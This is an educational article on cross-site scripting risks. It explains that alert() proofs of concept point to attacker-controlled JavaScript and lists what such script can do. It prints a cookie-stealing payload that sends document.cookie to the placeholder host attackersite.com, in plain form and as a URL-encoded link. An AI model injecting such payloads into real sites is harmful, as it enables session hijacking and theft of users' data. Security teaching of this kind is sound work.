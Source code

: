 
## XSS Risks
Most XSS examples you'll find online use the JavaScript `alert()` function. When you see these examples, you might think XSS is pretty harmless. I mean, an annoying pop-up doesn't seem so bad.

By using the `alert()` function, **security researchers are demonstrating that an attacker can run _their own JavaScript code_ on the website**. The `alert()` function is a harmless way to alert you (see what I did there?) to a more dangerous problem.

Researchers are trying to show that **an attacker could run their own code to do potentially malicious things** including:
- alerting data/page content to display fake content or a fake login form
- stealing user's cookies to hijack their session
- performing unauthorized actions like implementing a [CSRF attack](https://en.wikipedia.org/wiki/Cross-site_request_forgery){:target="_blank"}
- stealing data such as addresses, credit card numbers, passwords, etc.
- logging the user's keystrokes
- remote code execution, which is the worst scenario for you and the ultimate exploit for an attacker

**So while `alert()` is relatively harmless, it highlights a more dangerous vulnerability**.

For example, instead of alerting 'XSS', what if the attacker inserted an image that points to their own website and appends the user's cookie to it?
```javascript
<script>
	new Image().src = "http://attackersite.com/?" + document.cookie;
</script>
````

Using the XSS example from before, the attacker could replace the username value with their malicious code:

`http://example.com?username=<script>new Image().src="http://attackersite.com/?"%2bdocument.cookie;</script>`

*Note:* The attacker must URL encode the "+" sign as %2b, otherwise the browser treats it as a blank space.

The attacker could then spam hundreds of people, hoping they'll click on this link. Once someone does, and is logged into example.com, the attacker collects their cookies and can access their session. If the attacker can trick an administrator into clicking on the link, they'll have the keys to the (website's) kingdom.

### Why does JavaScript allow this? 

Because when a user clicks on this link, the JavaScript code (including the malicious stuff in the URL) **runs as that user**. JavaScript doesn't know this code was written by an attacker. It only knows that you, the user, have told it to attach your cookies to this image request.

This functionality is useful in other, non-malicious situations. Unfortunately, attackers who understand the intricacies of how websites work can abuse this functionality to their advantage.

JavaScript is not the problem. **The XSS vulnerability is the problem**. The vulnerability is what allows an attacker to trick a user into running the malicious code.
